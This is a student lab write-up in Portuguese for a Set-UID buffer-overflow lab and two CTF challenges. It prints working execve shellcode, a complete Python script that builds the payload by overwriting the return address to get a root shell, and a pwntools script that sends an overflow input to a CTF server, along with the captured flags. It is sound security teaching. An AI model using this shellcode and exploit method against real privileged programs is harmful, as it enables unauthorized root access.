





# LOGBOOK5 - Buffer-Overflow Attack Lab - Set-UID Version
## Task1
>When we compile the program using the -m32 flag, the 32-bit version will be used; without this flag, the 64-bit version will be used. Using the provided Makefile, you can compile the code by typing make. Two binaries will be created, a32.out (32-bit) and a64.out (64-bit). Run them and describe your observations.
<div align="justify">
<p> Após termos compilado o programa 'call_shellcode.c' utilizando o comando 'make', verificamos que foram criados dois ficheiros binários, um de 32 bits e outro de 64 bits (a32.out e a64.out). Após executar cada um dos dois ficheiros, concluimos que ambos lançavam uma shell sem previlégios de root, tal como era suposto.</p>


</div>

## Task2
>Understanding the Vulnerable Program
<div <div align="justify">
<p> Nesta tarefa, foi nos apresentado o código do programa 'stack.c'. Com este, conseguimos perceber que a função 'strcpy()', função que como mencionado, não verifica limites, é utilizada para copiar o conteúdo de um array de tamanho até 517 caracteres para um buffer de tamanho igual a BUF_SIZE (neste caso: BUF_SIZE = 100). Concluimos então que existe a possibilidade de um utilizador se aproveitar deste buffer overflow de forma a executar código malicioso.</p>
<p>
Além disso, nesta tarefa é nos pedido para compilar o programa utilizando o comando 'gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c' e de seguida alterar as permissões do ficheiro para 'set-uid' utilizando o comando 'sudo chown root stack; sudo chmod 4755 stack'. Com isto, considerando que o programa passou a ser 'root-owned', um utilizador pode aproveitar-se da vulnerabilidade mencionada no parágrafo anterior e abrir uma 'root shell'.</p>
Ficheiros gerados:

</div>

## Task3
>Exploiting the Vulnerability
### Task3.1 - Investigating the Stack Layout
<div align="justify">
<p> Nesta tarefa foi nos pedido para primeiramente criar um ficheiro 'badfile'. Após isso, tivemos que executar o programa stack-L1 em modo debug de forma a descobrir o endereço do buffer e o valor do ebp. Assim, obtivemos os seguintes resultados:</p>
</div>

- valor do ebp: 0xffffca18
- endereço do buffer: 0xffffc9ac



### Task3.2 - Launching the Attack
<div align="justify">
<p> Após a tarefa anterior, foi nos pedido que alterassemos um script python de modo a conseguirmos correr o ataque. O código inalterado era o seguinte:<p>
</div>

```Python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode

shellcode= (

  "\x90\x90\x90\x90"  

  "\x90\x90\x90\x90"  

).encode('latin-1')

# Fill the content with NOP's

content = bytearray(0x90 for i in range(517)) 

##################################################################

# Put the shellcode somewhere in the payload
start = 0               # Change this number 
content[start:start + len(shellcode)] = shellcode
# Decide the return address value 
# and put it somewhere in the payload
ret = 0x00           # Change this number 
offset = 0              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 

##################################################################
# Write the content to a file
with open('badfile', 'wb') as f:

  f.write(content)
```

<div align="justify">
<p> Com este código, conseguimos perceber que inicialmente temos de alterar o shellcode para um que nos permita abrir uma shell. Para isso, utilizamos o shellcode que nos foi fornecido na task1:</p>
</div>

```Python
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
```

<div align="justify">
<p> De seguida, tivemos de alterar o valor de 'start' de forma a colocar o shellcode no final da stack. Com isto decidimos alterar o 'start' para:</p>
</div>

```Python
start = 517 - len(shellcode)
```

<div align="justify">
<p>Para calcular o offset basta calcular a diferença entre o valor do 'epb' e o endereço de memória do buffer e somar os 4 bytes de distância para o return adress.
<p> Após isto, tivemos de alterar o valor do 'return adress' ('ret'). Como sabiamos que o 'return adress' teria que retornar para um dos 'NOP' na stack, e que devido as diferenças nos endereços de memória ao executar o program em modo de debug, somar ao valor do 'epb' 8 bytes (que seria o primeiro 'NOP' seguinte) podia causar erros na execução do programa. Tendo isso em mente, somamos ao valor do 'epb' um valor significativo como 110. Assim: </p> 
</div>

```Python
ret = 0xffffca18 + 300 = 0xffffcb44
offset = 0xffffca18 - 0xffffc9ac + 4 = 112
```

<p> Com isto, o código final ficou da seguinte forma:</p>

```Python
#!/usr/bin/python3

import sys

# Replace the content with the actual shellcode

shellcode= (

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"  

).encode('latin-1')

# Fill the content with NOP's

content = bytearray(0x90 for i in range(517)) 

##################################################################

# Put the shellcode somewhere in the payload

start = 517 - len(shellcode)               # Change this number 

content[start:start + len(shellcode)] = shellcode

# Decide the return address value 

# and put it somewhere in the payload

ret = 0xffffca18 + 300           # Change this number 

offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 

##################################################################

# Write the content to a file

with open('badfile', 'wb') as f:

  f.write(content)
```

Por fim, executamos o programa, que provocou um buffer overflow e abriu uma shell com permissões root.



# LOGBOOK5 - CTF
## Desaio 1
>Existe algum ficheiro que é aberto e lido pelo programa?
<p> Sim, o ficheiro mem.txt é aberto e lido pelo programa. </p>

>Existe alguma forma de controlar o ficheiro que é aberto?
<div align="justify">
<p> Sim, é possível controlar o ficheiro que é aberto, pois o programa lê o nome do ficheiro a abrir apartir do que se encontra no buffer. Se conseguirmos alterar esse conteúdo conseguimos alterar o ficheiro aberto. </p>
</div>

>Existe algum buffer-overflow? Se sim, o que é que podes fazer?
<div align="justify">
<p> Sim, existe um buffer-overflow. Podemos alterar o conteúdo do buffer para o nome do ficheiro que queremos abrir. Considerando que a função 'scanf("%40s", &buffer)' está a ler os primeiros 40 caracteres para o buffer e este tem tamanho 32, é possível criar um 'input' que dê overflow ao buffer de forma a que o programa abra o ficheiro desejado.</p></div>

>Obtenção da flag
<div align="justify">
<p>De forma a conseguirmos obter a flag, sabiamos que tinhamos de dar overflow ao buffer de forma a que o programa abrisse o ficheiro flag.txt. Para isso, criamos um input de tamanho 40, sendo os primeiros 32 caracteres um 'dummy input' como por exemplo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' e os restantes 8 caracteres o nome do ficheiro desejado que neste caso é 'flag.txt. Assim, inserindo o input 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt', occore um buffer overflow e o ficheiro lido passa a ser o 'flag.txt' o que consequentemente mostra que a flag é: flag{66fe1e5da54e206be20c0439e961a513}</p>
</p>
</div>

## Desaio 2
>Que alterações foram feitas?
Foram feitas as seguintes alterações:
- Um novo array 'val' de tamanho 4 caracteres foi adicionado com o valor 0xdeadbeef;
- O array 'meme_file' foi alterado para um comprimento de 9 caracteres e foi inicializado com mais um 'null terminator';
- A função 'scanf("%40s", &buffer)' foi alterada para 'scanf("%45s", &buffer)';
- Antes de abrir o ficheiro, o program verifica se o valor de 'val' é igual a 0xfefc2324. Se for, o ficheiro é aberto, caso contrário, o programa termina.

>Mitigam na totalidade o problema?
<div align="justify">
<p> Não, as alterações não mitigam na totalidade o problema. Apesar de o programa verificar se o valor de 'val' é igual a 0xfefc2324, o que impede que o ficheiro seja aberto, o programa continua a ler o nome do ficheiro a abrir do buffer, o que permite que o buffer seja overflowed e que o programa abra um ficheiro diferente do que é suposto. </p>
</div>

>É possível ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente?
<div align="justify">
<p> Sim, é possível ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente, tal como foi explicado na questão anterior. </p>
</div>

>Obtenção da flag
<div align="justify">
<p>Após termos analisado o script python, percebemos que a função 'sendline' enviava o input que desejavamos. Assim, tal como foi feito no desafio 1, tivemos que construir um input da seguinte forma: 'dummy input' de tamanho 32 + 0xfefc2324 em código ASCII e invertido pois o sistema é 'little-endian' + 'flag.txt'. Com isto, o input que foi colocado na função 'sendline' foi o seguinte: "abcabcabcabcabcabcabcabcabcabcab$#üþflag.txt". Após executar o script, fomos apresentado com a flag: flag{7d91f1369e6f3161e44445e6207f2290}</p>

```Python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline("abcabcabcabcabcabcabcabcabcabcab$#üþflag.txt")
r.interactive()
```

</div>